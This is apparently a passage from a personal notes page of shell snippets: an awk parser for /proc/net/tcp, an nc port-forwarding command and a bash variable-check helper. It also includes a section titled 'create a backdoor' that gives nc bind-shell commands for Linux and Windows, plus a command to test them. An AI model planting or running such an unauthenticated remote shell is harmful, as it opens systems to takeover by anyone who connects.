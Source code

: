 ```
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp 
```
From https://staaldraad.github.io/2017/12/20/netstat-without-netstat/ 

## nc command to forward traffic
```bash
nc -v -lk -p 8001 -c "nc 127.0.0.1 8000"
```
and then use publicIP:8001 to accees `127.0.0.1 8000`
https://unix.stackexchange.com/questions/10428/simple-way-to-create-a-tunnel-from-one-local-port-to-another

Another way is to use socks proxy in SSHD to forward all traffic

## nc command to create a backdoor
Linux
```
nc -lk -p 6996 -e /bin/bash
```
or  Win
```
nc -lk -p 6996 -e cmd
```

Test backdoor: 
```
echo "ls -al " | nc -v xxx.xxx.xx.xxx 6996 
```

## assert var not empty
```bash
# if var empty, then exit
assert_var_not_empty() {
  var=$1
  [ ! -z ${!var} ] || ( >&2 echo "$i var is empty!"; exit 1 )
}

clean_db() {
  host=$1
  port=$2
  assert_var_not_empty "host"
  assert_var_not_empty "port"
  # ... continue with more code
}
```
